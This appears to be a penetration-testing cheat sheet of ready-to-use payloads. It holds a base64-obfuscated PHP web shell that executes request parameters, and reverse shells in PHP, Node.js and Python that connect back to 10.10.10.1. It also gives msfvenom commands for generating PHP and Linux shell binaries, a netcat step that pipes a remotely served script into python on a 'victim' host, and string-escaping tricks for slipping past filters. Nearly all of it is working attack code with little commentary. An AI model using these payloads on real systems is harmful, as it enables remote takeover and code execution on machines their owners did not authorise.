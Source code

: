 # PHP

## PHP Command Execution

Payload: echo passthru($_REQUEST["cmd"])
```
<pre><?php eval(base64_decode('ZWNobyBwYXNzdGhydSgkX1JFUVVFU1RbImNtZCJdKTsg'));?></pre>
```
## PHP Reverse Shell

```
$sock=fsockopen("10.10.10.1",5555);
exec("/bin/sh -i <&3 >&3 2>&3");
```

## Kali Built-in PHP Reverse Shell

`/usr/share/webshells/php/php-reverse-shell.php`


## MsfVenom PHP Reverse Shell

```
msfvenom -p php/reverse_php LHOST=10.0.0.1 LPORT=5555 -o ./rs.php
```

# Node.js

## Node.js Reverse Shell

```
var net = require("net"), sh = require("child_process").exec("/bin/sh");
var client = new net.Socket();
client.connect(5555, "10.10.10.1", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```

### Node.js notes

JavaScript strings can be escaped:

- hex encode: "/" -> "\\\\x2f" 

- unicode encode: "/" ->  "\\\\u002f"

# Python

## Python Reverse Shell

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.1",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

# Other 

## Serve Reverse Shell Remotely

Wait for connect back on Kali

```
kali@kali:~$ nc -nlvp 5555
```

Serve the shell from Kali

```
kali@kali:~$ nc -nvlp 4444 < shell.py
```

Get the shell from Kali and execute it on Victim

```
joe@victim:~$ nc 10.10.10.1 4444 | python
```


## MsfVenom Linux Reverse Shell 

```
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.1 LPORT=4444 -f elf -o ./rs
```

